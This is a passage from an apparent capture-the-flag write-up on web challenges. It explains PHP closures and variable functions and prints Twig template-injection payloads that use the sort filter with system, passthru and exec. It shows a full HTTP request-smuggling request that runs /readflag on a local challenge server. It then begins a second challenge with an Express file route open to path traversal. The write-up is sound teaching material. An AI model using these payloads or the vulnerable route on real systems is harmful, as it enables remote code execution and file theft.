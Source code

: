 So a closure is essentially an anonymous function, which also checks out with the [PHP documentation](https://www.php.net/manual/en/class.closure.php), which states:

> The Closure class: Class used to represent anonymous functions. Anonymous functions yield objects of this type. 

So closures are anonymous functions, which lead me to believe that non closures are named functions. I tried passing in `system` without the quotes to no success, but I recalled in PHP the existence of [variable functions](https://waituck.sg/web/rctf2020/php/2020/06/10/rctf-2020-calc-writeup.html#:~:text=PHP%20known%20as-,variable%20functions,-.%20From%20the%20PHP), which allows calling functions from their string representation. Even with that knowledge, it wasn't sufficient, and I knew that something like this would have appeared in a CTF somewhere, so I went to look for Twig templating payloads, and eventually, I ended looking at this [blog enumerating payloads for Twig](https://chowdera.com/2022/159/202206080644355675.html) which provided the following payload:

{% raw %} 
```php
{
   {["id", 0]|sort("system")}}
{
   {["id", 0]|sort("passthru")}}
{
   {["id", 0]|sort("exec")}}    //  No echo 
```
{% endraw %} 

Passing in an array with more than one element was quite important as it turned out. In any case, this gives us exactly what we need to trigger the RCE, thus solving the challenge.

{% raw %} 
```
POST / HTTP/2
Host: 127.0.0.1:1337
Content-Length: 1

aPOST /admin/export HTTP/1.0
Cookie: PHPSESSID=ijhrgmbj915hrtk7ikt4ki8fmt
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

slack-url=slack&redirect-url=redirecturl&template-page=owagray&campaign=campaign&log-title={{\['/readflag',0\]|sort('system')}}
```
{% endraw %}


### \[Web\] GrandMonty - (8 Solves)

I worked on the challenge after a teammate leaked the source code of the challenge. Just to briefly explain:

```js
router.get('/files/:file', async (req, res) => {
    const { file } = req.params;

    return res.sendFile(path.join(__dirname, '/../uploads', file));
});
```
